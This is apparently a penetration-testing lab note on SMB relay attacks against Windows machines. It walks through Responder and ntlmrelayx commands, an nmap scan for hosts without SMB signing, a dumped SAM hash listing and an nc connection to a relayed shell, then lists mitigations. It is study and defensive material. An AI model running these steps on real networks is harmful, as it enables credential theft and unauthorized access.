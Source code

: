 #cybersecurity #hacking #penetration-testing 
#active-directory #smb 

# SMB Relay Attack

## SMB Relay Attacks Overview (Usefull in case of Strong password policy)

#### What is SMB Relay?

Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines and potentially gain access

#### Requirements

-   ﻿﻿SMB signing must be disabled on the target
-   ﻿﻿Relayed user credentials must be admin on machine

>Note: In this case Vegeta is admin on both the Planet Vegeta Machine and Earth Machine

1. Edit the responder configuration file ```gedit Responder.conf```
![](https://i.imgur.com/zMDNVcs.png)
2. Run Responder ```python Responder.py -| tun0 -dw```
3. Set up the relay ```python ntlmrelayx.py -tf targets.txt -smb2support```
4. An event occurs: point the Win10box at a machine but DNS fails, responder kicks in and relays creds to another machine
5. Credentials are relayed to another machine

>Vegeta is an admin on the Earth machine too so if his hash is relayed to the Earth Machine we should be able to get access to that machine as well

![](https://i.imgur.com/mfo883Z.png)

## Discovering Hosts with SMB Signing Disabled

Several ways to do this:
- Nessus
- Nmap
- Search github for smb checker

### NMAP Way

```bash
nmap --script=smb2-security-mode.nse -p445 192.168.2.0/24
```

Output:
![](https://i.imgur.com/CXIZBIQ.png)

We can see the server (192.168.2.135) has signing required but the individual windows 10 machines do not:

![](https://i.imgur.com/vDnBc5f.png)

Create a ``targets.txt`` file with ``192.168.2.137``: Win10-Earth Machine

## SMB Relay Attack Part 1

Need to turn off SMB and HTTP:

![](https://i.imgur.com/zMDNVcs.png)

Run responder

```bash
repsonder -I eth0 -dw
```

![](https://i.imgur.com/EAPpNEU.png)

```bash
ntlmrelayx.py -tf targets.txt -smb2support
```

Point my Win10-Vegeta Machine at my Attack Machine (Kali Attack Box)
It responds with an error but dumps the SAM hash because Vegeta is admin on the Win10-Earth Machine as well

![](https://i.imgur.com/UqCRwgH.png)

SAM Hash:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:bcd858e95a29844cea73b5bc3bf76117:::
Goku:1003:aad3b435b51404eeaad3b435b51404ee:403f92cda3c8066381327fba611a6a9e:::
```

## SMB Relay Attack Part 2

Get an interactive shell from the SMB relay attack:

```bash
ntlmrelayx.py -tf targets.txt -smb2support -i
```

Again I point my Win10-Vegeta Machine at my Attack Machine (Kali Attack Box). This is the "event" where DNS fails and the SMB Relay begins.

![](https://i.imgur.com/6v6Ptex.png)

```bash
nc 127.0.0.1 11000
```

![](https://i.imgur.com/WW36jQA.png)


Rewatch the end of https://academy.tcm-sec.com/courses/1152300/lectures/24780884


## SMB Relay Attack Defenses : Mitigation Strategies

### Enable SMB Signing on all devices
Pro: Completely stops the attack
Con: Can cause performance issues with file copies
### Disable NTLM authentication on network
Pro: Completely stops the attack
Con: If Kerberos stops working, Windows defaults back to NTLM
### Account tiering:
Pro: Limits domain admins to specific tasks (e.g. only log onto servers with need for DA)
Con: Enforcing the policy may be difficult
### Local admin restriction:
Pro: Can prevent a lot of lateral movement
Con: Potential increase in the amount of service desk tickets
